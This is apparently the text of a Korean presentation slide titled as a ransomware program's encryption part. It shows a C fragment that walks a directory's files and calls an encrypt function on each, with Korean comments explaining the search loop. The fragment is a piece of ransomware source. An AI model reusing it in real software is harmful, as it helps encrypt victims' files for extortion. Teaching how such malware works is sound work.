

02 랜섬웨어 프로그램
-#1 암호화 프로그램
#1 파일 찾기 & 파일 암호화
 else {

      do {
         printf("%s\n", file_search.name);
         encrypt(file_search.name, path);
      } while (_findnext(h_file, &file_search) == 0); //findfirst 로 처음을 시작햇으면 next -> next -> next 로 계속 찾아가는함수

      _findclose(h_file); //끝나면 메모리 해제
   }
}